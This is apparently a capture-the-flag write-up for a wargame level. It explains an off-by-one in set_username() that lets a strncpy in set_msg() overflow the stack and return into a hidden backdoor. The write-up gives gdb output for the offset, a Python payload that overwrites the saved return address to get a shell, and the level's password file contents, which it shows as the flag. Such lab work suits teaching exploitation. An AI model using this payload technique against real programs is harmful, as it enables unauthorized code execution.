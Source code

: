 # One byte can cause your end

## Program summary
In this level we are provided with a program which takes as input a username **`set_username()`** and a message **`set_msg()`**, which will be transferred to a certain "@Unix-Dude". It's a fictitious messaging system. We also notice a secret backdoor() function which allows you to execute a command passed as input with system.

## Vulnerability
The vulnerability at this level resides in **`set_username()`** and is exploitable in **`set_msg()`**.  Let me explain, these two functions will receive the same start of segment of a buffer defined in **`handle_msg()`**, to write the information related to their function. Except that in **`set_msg()`** the length limit of **`strncpy()`** is accessible via **`set_username()`** since it copies one byte too many.

Therefore if the length is set correctly, we can attack with a buffer overflow in the **`handle_msg()`** stack frame to change the execution course towards the backdoor.

## Attack design

Two attacks are possible in fact, the first would simply be to use gdb to hijack the instruction register on **`secret_backdoor()`**.

The second is the buffer overflow attack. To do this we must find the sufficient length to reach the location of the saved RIP. Let's look at the buffer address and the RIP location to calculate the offset.

```
Breakpoint 1, 0x000055555555492b in handle_msg ()
(gdb) i f
Stack level 0, frame at 0x7fffffffe4c0:
 rip = 0x55555555492b in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe4d0
 Arglist at 0x7fffffffe4b0, args: 
 Locals at 0x7fffffffe4b0, Previous frame's sp is 0x7fffffffe4c0
 Saved registers:
  rbp at 0x7fffffffe4b0, rip at 0x7fffffffe4b8
(gdb) p $rbp-0xc0
$1 = (void *) 0x7fffffffe3f0
```
***RIP Location*** : 0x7fffffffe4b8  
***Buffer start*** : 0x7fffffffe3f0  
0x7fffffffe4b8 - 0x7fffffffe3f0 = 0xC8 = OFFSET is **200**  

Let's put the *40th* excess copy byte at its maximum simply with **`\xff = 255`** in **`set_username()`**. Now we can copy 255 bytes with **`strncpy()`** since **`buffer start + 0xb4`** points exactly to **`\xff`**, however we will only use 208 bytes (*OFFSET + 64 bits addr*).

```py
python -c 'print "*"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"' > /tmp/boom
```

```
cat /tmp/boom - | ./level09
...
whoami
end
cat /home/users/end/.pass    
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag : `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
